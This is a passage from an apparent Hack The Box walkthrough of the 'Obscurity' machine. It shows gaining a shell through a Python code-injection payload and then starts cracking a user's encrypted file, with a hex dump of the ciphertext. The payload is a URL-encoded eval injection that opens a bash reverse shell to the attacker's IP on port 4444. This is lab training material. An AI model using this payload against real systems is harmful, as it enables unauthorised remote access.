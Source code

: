 Awesome, next destination: getting a shell on the target box.

I'll use the `';__import__("os").system("bash -c 'bash -i >& /dev/tcp/10.10.14.51/4444 0>&1'")#` payload and URL-encode all the characters so I don't have any problems with my curl command. The exec/eval works and I get a shell.

![](/assets/images/htb-writeup-obscurity/shell.png)

## Cracking robert's password

I have access to robert's home directory but I can't read the flag so I have to get access to his account next.

![](/assets/images/htb-writeup-obscurity/robert.png)

The `check.txt` file is the plaintext, and `out.txt` is the ciphertext:

```
www-data@obscure:/home/robert$ cat check.txt
Encrypting this file with your key should result in out.txt, make sure your key is correct!

www-data@obscure:/home/robert$ xxd out.txt
xxd out.txt
00000000: c2a6 c39a c388 c3aa c39a c39e c398 c39b  ................
00000010: c39d c39d c289 c397 c390 c38a c39f c285  ................
00000020: c39e c38a c39a c389 c292 c3a6 c39f c39d  ................
00000030: c38b c288 c39a c39b c39a c3aa c281 c399  ................
00000040: c389 c3ab c28f c3a9 c391 c392 c39d c38d  ................
00000050: c390 c285 c3aa c386 c3a1 c399 c39e c3a3  ................
00000060: c296 c392 c391 c288 c390 c3a1 c399 c2a6  ................
00000070: c395 c3a6 c398 c29e c28f c3a3 c38a c38e  ................
00000080: c38d c281 c39f c39a c3aa c386 c28e c39d  ................
00000090: c3a1 c3a4 c3a8 c289 c38e c38d c39a c28c  ................
000000a0: c38e c3ab c281 c391 c393 c3a4 c3a1 c39b  ................
000000b0: c38c c397 c289 c281 76                   ........v
```
